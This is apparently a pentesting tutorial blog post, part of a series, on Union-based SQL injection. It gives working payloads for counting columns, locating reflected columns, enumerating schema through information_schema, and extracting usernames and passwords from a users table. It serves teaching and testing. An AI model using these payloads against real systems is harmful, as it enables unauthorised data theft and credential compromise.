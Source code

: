 ```yaml
---
title: "SQLi Series - Intro to SQL Union Injection II  - 04"
seoTitle: "SQL Union Injection II: Intro Series"
seoDescription: "Learn how to perform and prevent Union-based SQL injections, including detecting vulnerable columns and extracting data"
datePublished: Fri Apr 19 2024 05:06:23 GMT+0000 (Coordinated Universal Time)
cuid: clv67jxs9000409l3gsmzge24
slug: sqli-series-intro-to-sql-union-injection-ii-04
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1713503145012/f5361a2c-f1e9-4c24-9da0-2dd09bbfef07.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1713503164430/41eac61e-24e5-4957-aae5-8280aa89ba82.png
tags: pentesting, sqlinjection

---
```


### 1.Understanding Union-Based SQL Injection

a) Explanation:

* Union-based SQL injection allows attackers to retrieve data from different tables within the database by appending a UNION SELECT statement to the original query.
    
* The UNION operator combines the results of two or more SELECT statements into a single result set.
    
* For a successful Union-based injection, the following conditions must be met:
    
    * The number of columns in the injected SELECT statement must match the number of columns in the original query.
        
    * The data types of the columns in the injected SELECT statement must be compatible with the data types of the original columns.
        

b) Example:

Consider the following vulnerable SQL query:

```bash
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

An attacker can inject a payload like:

```bash
' UNION SELECT 1, 2, 3 -- -
```

This will append a new SELECT statement, returning three columns with values 1, 2, and 3, effectively bypassing the original query.

1. Detecting the Number of Columns
    
2. a) Using ORDER BY:
    
    * The ORDER BY clause can be used to determine the number of columns in the original query.
        
    * Steps:
        
        1. Inject an ORDER BY clause with increasing column numbers until an error occurs.
            
        2. The last successful column number represents the total number of columns in the original query.
            
    
    Example:
    
    ```bash
    ' ORDER BY 1-- -
    ' ORDER BY 2-- -
    ' ORDER BY 3-- -
    ...
    ```
    
    Continue incrementing the column number until an error is encountered.
    
3. b) Using UNION SELECT:
    
    * Alternatively, you can use UNION SELECT with increasing number of columns until the injection is successful.
        
    * Steps:
        
        1. Inject a UNION SELECT statement with increasing number of columns.
            
        2. Observe the response until the injection is successful (i.e., no error is returned).
            
        3. The number of columns used in the successful injection represents the total number of columns in the original query.
            
    
    Example:
    
    ```bash
    ' UNION SELECT NULL-- -
    ' UNION SELECT NULL, NULL-- -
    ' UNION SELECT NULL, NULL, NULL-- -
    ...
    ```
    
    Continue adding NULL values until the injection is successful.
    

### 2.Locating the Vulnerable Column

a) Explanation:

* Not all columns returned by the original query may be displayed in the application's response.
    
* To retrieve meaningful data, you need to identify which column(s) are vulnerable and can be used for injection.
    

b) Steps:

1. Perform a Union-based injection with distinct values for each column.
    
2. Observe the application's response to determine which column(s) are reflected in the output.
    
3. Replace the distinct values with actual data retrieval queries in the vulnerable column(s).
    

c) Example: Inject the following payload:

```bash
' UNION SELECT 1, 2, 3, 4-- -
```

If the values 2, 3, and 4 are displayed in the application's response, those columns can be used for data retrieval.

### 3.Extracting Data

a) Database Version:

* Retrieve the database version using the @@version function.
    
* Example:
    
    ```bash
    ' UNION SELECT NULL, @@version, NULL, NULL-- -
    ```
    

b) Database Name:

* Retrieve the current database name using the database() function.
    
* Example:
    
    ```bash
    ' UNION SELECT NULL, database(), NULL, NULL-- -
    ```
    

c) Table Names:

* Retrieve table names from the information\_schema.tables table.
    
* Example:
    
    ```bash
    ' UNION SELECT NULL, table_name, NULL, NULL FROM information_schema.tables-- -
    ```
    

d) Column Names:

* Retrieve column names from the information\_schema.columns table.
    
* Example:
    
    ```bash
    ' UNION SELECT NULL, column_name, NULL, NULL FROM information_schema.columns WHERE table_name='users'-- -
    ```
    

e) Retrieving Data:

* Once you have identified the table and column names, you can retrieve data from the desired table.
    
* Example:
    
    ```bash
    ' UNION SELECT NULL, username, password, NULL FROM users-- -
    ```
    

### 4.Checkpoint:

* Practice detecting the number of columns using both ORDER BY and UNION SELECT techniques.
    
* Identify the vulnerable column(s) in a given SQL injection scenario.
    
* Retrieve the database version, database name, table names, and column names using Union-based injection.
    
* Extract sensitive data from a specific table using Union-based injection.
    

### 5.Further Reading:

* SQL Injection Cheat Sheet: [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
    
* SQL Injection Wiki: [https://sqlwiki.netspi.com/](https://sqlwiki.netspi.com/)
    
* OWASP SQL Injection Prevention Cheat Sheet: [https://cheatsheetseries.owasp.org/cheatsheets/SQL\_Injection\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)